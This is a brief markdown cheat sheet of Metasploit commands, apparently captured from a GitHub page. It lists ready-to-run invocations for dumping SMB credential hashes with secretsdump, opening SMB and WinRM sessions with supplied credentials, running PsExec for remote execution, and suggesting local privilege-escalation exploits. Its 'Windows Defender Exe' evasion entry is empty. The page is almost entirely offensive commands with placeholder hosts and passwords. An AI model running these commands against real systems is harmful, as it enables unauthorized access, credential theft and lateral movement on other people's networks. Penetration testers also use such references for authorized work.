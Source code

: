 ## Modules

### Auxiliary
#### SMB
##### Impacket Secretsdump

```ruby
use scanner/smb/impacket/secretsdump
set RHOSTS 192.168.1.1
set SMBDOMAIN domain
set SMBUSER user
set SMBPASS pass
```

##### SMB Login
```ruby
use scanner/smb/smb_login
auxiliary(scanner/smb/smb_login) > run CreateSession=true RHOSTS=172.14.2.164 RPORT=445 SMBDomain=windomain.local SMBPass=password SMBUser=username
sessions -i 1
```

#### WinRM
##### WinRM_Login
```ruby
use scanner/winrm/winrm_login
run CreateSession=true RHOSTS=172.14.2.164 SMBDomain=windomain.local SMBPass=password SMBUser=username
```

### Evasion
#### Windows Defender Exe
```ruby
set 
```
### Post
#### SMB PsExec
```ruby
use exploit/windows/smb/psexec
set rhost 127.0.0.1
set smbuser mega-admin
set smbpass p4ss
run
```
#### Local Exploit Suggester
```ruby
use post/multi/recon/local_exploit_suggester
set SESSION 1
```
